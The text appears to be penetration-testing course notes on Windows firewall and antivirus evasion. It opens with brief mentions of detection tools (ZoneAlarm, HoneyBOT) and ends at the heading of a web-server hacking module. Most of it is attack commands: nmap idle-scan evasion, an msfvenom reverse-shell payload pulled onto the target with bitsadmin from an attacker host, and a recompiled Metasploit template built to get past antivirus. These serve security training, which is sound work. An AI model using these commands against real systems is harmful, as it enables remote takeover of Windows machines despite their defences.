 
## Detect Malicious Network Traffic
-  ZoneAlarm Free Firewall (zafw): Windows
    - You can block any domain, IP or whatever > Firewall > View zones > Firewall settings > Add zone

- HoneyBOT (Windows): Honeypot that creates a safe enviroment to capture and interact with unsolicited traffic on a network.


## Bypass Windows Firewall

-  Nmap evasion techniques
```bash
nmap -sP IP/range
nmap -sI IP1 IP2
```


## Bypass Firewall Rules

-  HTTP/FTP tunneling
    - If IIS Admin Service is running, stop the program.
    - Run htthost.exe
    - Revalidate DNS names and log connections.
    - Run httport3snrm.exe to perform tunneling using HTTPort

- BITSAdmin
```bash
msfvenom -p windows/shell_reverse_tcp lhost=IP lport=port -f exe > /exploit.exe
service apache2 start
PS> bitsadmin /transfer Exploit.exe http://IP/exploit.exe c:\\exploit.exe
```

## Bypass Antivirus

- Metasploit
```bash
pluma /usr/share/metasploit-framework/data/templates/src/pe/exe/template.c
change 4096 to 4000
cd /usr/share/metasploit-framework/data/templates/src/pe/exe i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe

msfvenom -p windows/shell_reverse_tcp lhost=IP lport=port -x /usr/share/metasploit-framework/data/templates/src/pe/exe/evasion.exe -f exe > /home/attacker/bypass.exe
```


-----

# Module 13: Hacking Web Servers
## Information Gathering
